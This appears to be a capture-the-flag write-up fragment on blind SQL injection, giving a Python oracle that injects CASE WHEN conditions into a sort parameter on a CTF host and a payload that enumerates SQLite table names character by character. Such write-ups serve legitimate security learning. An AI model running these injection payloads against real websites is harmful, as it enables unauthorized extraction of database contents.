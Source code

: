 ## Blind SQL Injection

We can make an oracle to bruteforce table names:

```python
def oracle(payload):

    url = "http://top-lang.c.ctf-snyk.io/"
    sort_param = f"(CASE WHEN {payload} THEN rating ELSE change END)"
    params = {"sort": sort_param}
    r = requests.get(url, params=params)
    soup = BeautifulSoup(r.text, 'html.parser')

    return (soup.find_all("td")[2].get_text() == "Go")
    
payload = f"(SELECT (SELECT SUBSTR(GROUP_CONCAT(tbl_name, ';'),1,{curr_iter}) FROM sqlite_master WHERE type='table')='{tmp_table}')"
```

- `GROUP_CONCAT(tbl_name, ';')` returns all `tbl_names`, seperated by `;`
- `SUBSTR` does what any normal substring does.
- Refer to [this](https://github.com/quentinkhoo/ctf-tips/blob/main/web/SQL-Injection/sqlite3/get_tables.py) as an example.
